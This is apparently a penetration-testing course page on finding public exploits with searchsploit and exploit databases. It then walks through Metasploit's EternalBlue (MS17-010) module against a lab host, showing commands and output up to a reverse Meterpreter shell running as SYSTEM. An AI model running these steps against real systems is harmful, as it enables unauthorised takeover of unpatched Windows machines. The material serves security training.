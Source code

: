 # Public Exploits

Many tools can help us search for public exploits for the various applications and services we may encounter during the enumeration phase. One way is to Google for the application name with exploit to see if we get any results.

A well-known tool for this purpose is **searchsploit**, which we can use to search for public vulnerabilities/exploits for any application.

We can also utilize online exploit databases to search for vulnerabilities:

* [Exploit DB](https://www.exploit-db.com)
* [Rapid7 DB](https://www.rapid7.com/db)
* [Vulnerability Lab](https://www.vulnerability-lab.com)

The [Intro to Web Applications](https://academy.hackthebox.com/module/details/75) module discusses public vulnerabilities for web applications.

## Metasploit

The Metasploit Framework (MSF) is an excellent tool for pentesters. It contains many built-in exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets.

    $ msfconsole

Once we have Metasploit running, we can search for our target application with the search exploit command. For example, we can search for an SMB vulnerability.

    msf6 > search exploit eternalblue

    Matching Modules
    ================

    #  Name                                           Disclosure Date  Rank     Check  Description
    -  ----                                           ---------------  ----     -----  -----------
    <SNIP>
    EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
    4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010

We found one exploit for this service. We can use it by copying the full name of it and using USE to use it

    msf6 > use exploit/windows/smb/ms17_010_psexec

    [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

Before we can run the exploit, we need to configure its options. To view the options available to configure, we can use the **show options** command.

    Module options (exploit/windows/smb/ms17_010_psexec):

    Name                  Current Setting                                                 Required  Description
    ----                  ---------------                                                 --------  -----------
    DBGTRACE              false                                                           yes       Show extra debug trace info
    LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
    NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
    NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
    RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
    RPORT                 445                                                             yes       The Target port (TCP)
    SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
    SERVICE_DISPLAY_NAME                                                                  no        The service display name
    SERVICE_NAME                                                                          no        The service name
    SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
    SMBDomain             .                                                               no        The Windows domain to use for authentication
    SMBPass                                                                               no        The password for the specified username
    SMBUser                                                                               no        The username to authenticate as

    ...SNIP...

Any option with **Required** set to **yes** needs to be set for the exploit to work. In this case, we only have two options to set: **RHOSTS**, which means the IP of our target (this can be one IP, multiple IPs, or a file containing a list of IPs). The second option, **LHOST**, represents the IP of our attack host (this can be a single IP, or the name of a network interface. In the example below, **LHOST** is being set to the IP associated with our **tun0** interface.) We can set them with the set command.

    msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
    RHOSTS => 10.10.10.40
    msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
    LHOST => tun0

We can run a check to ensure the server is vulnerable.

    msf6 exploit(windows/smb/ms17_010_psexec) > check

    [*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
    [+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
    [*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
    [+] 10.10.10.40:445 - The target is vulnerable.

Note that not every exploit in the Metasploit Framework supports the check function. Finally, we can use the run or exploit command to run the exploit.

    msf6 exploit(windows/smb/ms17_010_psexec) > exploit

    [*] Started reverse TCP handler on 10.10.14.2:4444 
    [*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
    [*] 10.10.10.40:445 - Built a write-what-where primitive...
    [+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
    [*] 10.10.10.40:445 - Selecting PowerShell target
    [*] 10.10.10.40:445 - Executing the payload...
    [+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
    [*] Sending stage (175174 bytes) to 10.10.10.40
    [*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    meterpreter > shell
    Process 39640 created.
    Channel 0 created.
    Windows 7 Professional 7601 Service Pack 1
    (C) Copyright 1985-2009 Microsoft Corp.

    C:\WINDOWS\system32>whoami
    NT AUTHORITY\SYSTEM
